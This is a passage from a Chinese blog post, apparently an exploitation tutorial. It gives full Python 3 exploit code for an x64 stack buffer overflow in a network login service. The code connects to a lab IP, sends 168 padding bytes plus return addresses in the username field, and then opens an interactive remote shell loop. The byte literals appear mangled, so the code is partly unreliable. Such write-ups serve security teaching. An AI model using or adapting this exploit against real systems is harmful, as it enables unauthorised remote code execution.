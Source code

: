 漏洞利用动图：<br>[![](https://p3.ssl.qhimg.com/t012b6a7ffd8bfee121.gif)](https://p3.ssl.qhimg.com/t012b6a7ffd8bfee121.gif)

完整利用代码：Python3

```
import socket
import time

client = socket.socket()
client.connect(('10.0.27.142', 8888))

def sendData(strData):
    bHex = bytes(strData, encoding='ascii')
    client.sendall(bHex)
    time.sleep(0.2)
    data = client.recv(4096)
    try:
        print(str(data, "ascii"))
    except:
        print(data)

def sendBin(bHex):
    client.sendall(bHex)
    time.sleep(0.2)
    data = client.recv(1024)
    try:
        print(str(data, "ascii"))
    except:
        print(data)

sendData('0n')         # login as admin

bHex1 = b'x41' * 168 + 
        b'xd3x1Bx40x00x00x00x00x00' 
        b'x57x6dx0fxf7xffx7fx00x00' 
        b'x90xf3xfaxf6xffx7fx00x00' 
        b'x0Dx0A'

sendBin(bHex1)          # usr name
sendData('123n')       # Password
sendData('5n')         # pay&amp;exit

while(1):
    command = input('shell&gt;')
    sendData(command + 'n')
```

本次分享的x64栈溢出漏洞相对比较容易上手，尤其在关闭了ASLR后。下次将分享另外一个样本，其漏洞成因和利用方式更为复杂，并且要在ASLR开启的环境下进行漏洞利用。请大家继续关注~

